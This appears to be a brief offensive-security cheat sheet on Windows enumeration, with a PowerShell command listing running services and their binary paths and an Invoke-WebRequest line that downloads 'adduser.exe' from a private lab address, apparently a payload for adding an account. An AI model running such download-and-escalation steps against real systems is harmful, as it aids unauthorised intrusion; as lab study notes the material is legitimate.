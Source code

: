 # Windows Enumeration

### Listing Installed Windows Binaries
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

### Invoke Web Request (get stuff from web site)
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
